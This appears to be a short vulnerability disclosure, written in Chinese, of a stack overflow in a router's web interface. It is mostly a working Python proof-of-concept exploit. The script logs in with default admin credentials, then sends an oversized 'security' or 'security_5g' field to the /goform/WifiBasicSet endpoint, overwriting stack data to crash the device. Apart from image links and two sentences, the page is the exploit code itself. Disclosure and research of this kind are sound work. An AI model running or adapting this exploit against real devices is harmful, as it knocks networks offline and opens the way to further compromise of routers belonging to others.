




# Stack Overflow


漏洞位置，5G和非5G是一样的。


可以覆盖掉栈上的变量从而导致DoS


PoC
```python
import requests
from struct import pack

url = b"http://192.168.85.131/login/Auth"
vuln = b"http://192.168.85.131/goform/WifiBasicSet/"

data = {
    "username": "admin",
    "password": "admin",
}

#  0xdeadbeef
payload = "a" * 0x13c + ('b' * 4) + ('c' * 4)

vuln_data = {
    "security": payload,
    "hideSsid": "1",
    "ssid": "1",
    "security_5g": "1",
    "wrlPwd": "1",
    "hideSsid_5g": "1",
    "ssid_5g": "1",
    "wrlPwd_5g": "1",
}

vuln_data_5g = {
    "security_5g": payload,
    "hideSsid": "1",
    "ssid": "1",
    "security": "1",
    "wrlPwd": "1",
    "hideSsid_5g": "1",
    "ssid_5g": "1",
    "wrlPwd_5g": "1",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=vuln, data=vuln_data)
    print(resp.content)

def attack_5g():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=vuln, data=vuln_data_5g)
    print(resp.content)


attack()
```

debug



效果

